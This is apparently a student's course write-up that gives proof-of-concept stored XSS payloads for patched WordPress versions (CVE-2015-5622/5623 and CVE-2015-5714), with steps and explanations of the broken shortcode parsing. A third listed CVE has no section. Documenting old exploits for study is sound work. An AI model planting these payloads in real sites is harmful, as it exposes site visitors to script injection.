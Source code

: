 # Cybersecurity University: Week 7 Assignment
Assignment: Identify and demonstrate POCs for at least 3 exploits affecting older versions of WordPress.

**Exploits demonstrated**:
* [CVE 2015-5622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622) / [CVE 2015-5623](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623): Authenticated Stored Cross-Site Scripting (XSS)
* [CVE 2015-5714](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714): Authenticated Shortcode Tags Cross-Site Scripting (XSS)
* [CVE 2017-6817](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817): Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds

## Authenticated Stored Cross-Site Scripting (XSS)

This exploit requires an attacker to have an account with posting capabilities (i.e. a minimum of Contributor level permissions). In this vulnerability, an attacker can insert arbitrary Javascript via a specially-crafted shortcode onto a page or a post.

### Recreating the Exploit
1. Gain access to an account with at least posting-level permissions via social engineering or another exploit. (Alternatively, if the site allows unauthenticated users to post via some special configuration, then an account is not needed.)
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor (not the Visual editor) to insert code similar to the following and post:

```
<a href="[caption code=">]</a><a title=" <Event-attribute-with-JS-code-here>  ">link</a>
```
which WP processes to:
```
<a href="</a><a title=" <Event-attribute-with-JS-code-here> ">link</a>
```

### Example
If an attacker puts in the following:
```
<a href="[caption code=">]</a><a title=" onmouseover=alert('XSS!')  ">link</a>
```
WP processes this to become:
```
<a href="</a><a title=" onmouseover=alert('XSS!') ">link</a>
```
Here, the closing of the first `a` tag and the opening of the second `a` tag are caught up in the first `a` tag's `href` attribute, which means that the first `a` tag now has an `href` attribute **and** an `onmouseover` attribute (the latter of which executes our JS code). So, when the post/page is opened and a user mouses over this (fake) link, the browser shows an alert box with the word "XSS." Of course, one could replace this JS code with something far more malicious.

### Demonstration

The following video demonstrates this exploit: [link goes here]

### Other Details
* **CVEs**: 2015-5622 and 2015-5623
* **Type**: XSS
* **Affects**: WordPress <=4.2.2
* **Patched**: WordPress 4.2.3

## Authenticated Shortcode Tags XSS

Like the last one, this vulnerability also requires the attacker to have an account with posting capabilities. It takes advantage of a shortfall in WordPress's KSES filtering (which filters out non-whitelisted HTML tags). 

### Recreating the Exploit
1. Gain access to an account with at least posting-level permissions via social engineering or another exploit. (Alternatively, if the site allows unauthenticated users to post via some special configuration, then an account is not needed.)
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor (not the Visual editor) to insert code similar to the following and post:

```
[caption width="1" caption='<a href="' ">]</a><a href=" <Event-attribute-with-JS-code-here> ">Click me!</a>
```
which WP processes to:
```
<figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href=" <Event-attribute-with-JS-code-here> ">Click me</a>
```

### Example
If an attacker puts in the following:
```
[caption width="1" caption='<a href="' ">]</a><a href=" onmouseover='alert("XSS!")' ">Click me!</a>
```
WP processes this to become:
```
<figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href=" onmouseover='alert("XSS!")' ">Click me</a>
```
Here, the closing of the first `a` tag, the `figcaption` tag, and the `figure` tag are all caught up in the first `a` tag's `href` attribute, which means that the first `a` tag now has an `href` attribute **and** an `onmouseover` attribute (the latter of which executes our JS code). (The `figcaption` tag that was opened at the beginning is left hanging.) Thus, like the last vulnerability, when the post/page is opened and a user mouses over this (fake) link, the browser shows an alert box with the word "XSS."

### Demonstration

The following video demonstrates this exploit: [link goes here]

### Other Details
* **CVEs**: 2015-5714
* **Type**: XSS
* **Affects**: WordPress <=4.3
* **Patched**: WordPress 4.3.1
